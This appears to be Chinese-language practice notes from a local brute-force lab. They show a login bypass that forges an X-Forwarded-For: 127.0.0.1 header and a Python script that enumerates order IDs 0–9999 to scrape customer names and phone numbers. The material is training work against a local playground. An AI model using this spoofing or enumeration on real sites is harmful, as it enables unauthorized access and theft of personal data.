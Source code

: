 ## ip伪造

### ip伪造登录（本地IP伪造）

账号密码随意输入，然后抓包进行修改，增加下面的一行

```
X-Forwarded-For: 127.0.0.1
```



成功登录



### ip伪造（爆破）







## 遍历与爆破练习

### 订单详情页面（爆破 / 遍历订单号为4位数字 0-9999）

初始链接：

```
http://127.0.0.1/bruteplayground/by-order-id?orderId=3321
```



直接写脚本吧

```python
import requests
from bs4 import BeautifulSoup

base_url = "http://127.0.0.1/bruteplayground/by-order-id"
start_id = 0
end_id = 9999
cookies = {}
headers = {}

for order_id in range(start_id, end_id + 1):
    url = f"{base_url}?orderId={order_id}"
    try:
        response = requests.get(url,headers=headers, cookies=cookies)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            card = soup.find('div', class_='card')
            if card:
                order_info = {
                    "订单ID": card.find('p', string=lambda x: x and '订单ID:' in x).text.split(': ')[1],
                    "客户姓名": card.find('p', string=lambda x: x and '客户姓名:' in x).text.split(': ')[1],
                    "客户电话": card.find('p', string=lambda x: x and '客户电话:' in x).text.split(': ')[1]
                }
                print(f"ID {order_id} 存在，订单信息: {order_info}")
        else:
            print(f"ID {order_id} 请求失败，状态码: {response.status_code}")

    except requests.exceptions.RequestException as e:
        print(f"请求ID {order_id} 时出错: {e}")
```

